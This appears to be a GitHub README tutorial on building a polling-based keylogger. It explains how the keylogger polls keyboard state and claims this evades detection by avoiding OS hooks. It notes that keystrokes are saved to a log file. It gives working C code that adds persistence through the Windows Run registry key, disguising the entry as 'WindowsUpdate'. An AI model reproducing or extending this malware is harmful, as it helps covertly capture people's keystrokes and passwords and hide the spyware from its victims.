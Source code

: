 # polling-based keylogger

A **polling-based keylogger** is a type of keylogger that works by repeatedly checking (polling) the state of the keyboard at fixed intervals, rather than using interrupt-driven or OS-level event hooks. Here's a breakdown:

### How It Works

1. **Continuous Checking**  
   The keylogger actively scans the keyboard buffer or hardware state many times per second (e.g., 50–1000Hz).

2. **No OS Hooks**  
   Unlike API-based keyloggers (e.g., Windows `SetWindowsHookEx`), it doesn’t rely on OS event systems, making it harder to detect.

3. **Low-Level Access**  
   Often reads directly from:
   - Hardware ports (`0x60` on x86 for PS/2 keyboards)
   - Kernel memory (e.g., `/dev/input` on Linux)
   - BIOS/UEFI firmware (for pre-OS logging)

---


to see the list of all the keys click [here](https://learn.microsoft.com/en-us/windows/win32/inputdev/virtual-key-codes)

you can see the key strokes and also see the keysrokes are also saved in the keylog.txt

![keystokes](./img/keystokes.png)

---

<br>


# Adding Persistence to the Keylogger

there are many ways to add persistence to the keylogger

- Registry Run Key (Windows)
- Scheduled Task
- Startup Folder
- Service Installation

but we will be using registry to add persistance


```c
void AddToRegistry()
{
    HKEY hKey;
    const char *path = "Software\\Microsoft\\Windows\\CurrentVersion\\Run";
    char exePath[MAX_PATH];

    // Get current executable path
    GetModuleFileName(NULL, exePath, MAX_PATH);

    // Add to registry
    if (RegOpenKeyEx(HKEY_CURRENT_USER, path, 0, KEY_WRITE, &hKey) == ERROR_SUCCESS)
    {
        RegSetValueEx(hKey, "WindowsUpdate", 0, REG_SZ, (BYTE *)exePath, strlen(exePath) + 1);
        RegCloseKey(hKey);
    }
}
```


